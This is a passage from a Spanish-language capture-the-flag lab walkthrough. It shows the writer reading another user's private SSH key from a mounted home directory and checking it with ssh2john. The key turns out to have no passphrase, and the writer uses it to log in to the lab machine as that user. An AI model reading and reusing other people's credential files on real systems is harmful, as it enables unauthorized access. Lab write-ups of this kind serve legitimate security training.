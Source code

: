 Si nos movemos a esa ruta y listamos los archivos, vemos el directorio **docker**:
```bash
pepita@webserver:~$ ls -la /host/juanita/
total 28
drwx------ 4 pepita pepita 4096 May 23  2024 .
drwxr-xr-x 3 root   root   4096 May 23  2024 ..
lrwxrwxrwx 1 root   root      9 May 23  2024 .bash_history -> /dev/null
-rw-r--r-- 1 pepita pepita  220 May 23  2024 .bash_logout
-rw-r--r-- 1 pepita pepita 3526 May 23  2024 .bashrc
-rw-r--r-- 1 pepita pepita  807 May 23  2024 .profile
drwx------ 2 pepita pepita 4096 May 24  2024 .ssh
drwxr-xr-x 4 root   root   4096 May 23  2024 docker
```

Podemos leer la **llave privada id_rsa**:
```bash
pepita@webserver:/host/juanita$ cat .ssh/id_rsa 
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQ
```

Lo curioso es que si la copiamos en nuestra máquina e intentamos obtener su hash con **ssh2john**, nos dirá que no tiene una contraseña:
```bash
nano id_rsa
chmod 600 id_rsa
ssh2john id_rsa > hash
id_rsa has no password!
```
Esto quiere decir que no se usó una contraseña para cifrar la llave, entonces, podemos usar esa llave sin ninguna restricción.

Probémoslo:
```bash
ssh -i id_rsa juanita@192.168.10.170
Linux emerreuvedoble 6.1.0-21-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.90-1 (2024-05-03) x86_64

███╗   ███╗██████╗ ██╗   ██╗██╗   ██╗
████╗ ████║██╔══██╗██║   ██║██║   ██║
██╔████╔██║██████╔╝██║   ██║██║   ██║
██║╚██╔╝██║██╔══██╗╚██╗ ██╔╝╚██╗ ██╔╝
██║ ╚═╝ ██║██║  ██║ ╚████╔╝  ╚████╔╝ 
╚═╝     ╚═╝╚═╝  ╚═╝  ╚═══╝    ╚═══╝  
                                     

Last login: Tue Jul  8 00:24:23 2025
juanita@emerreuvedoble:~$ whoami
juanita
```
Estamos dentro de la máquina víctima.

<br>

<h2 id="linEnum">Enumeración de la Máquina Víctima</h2>
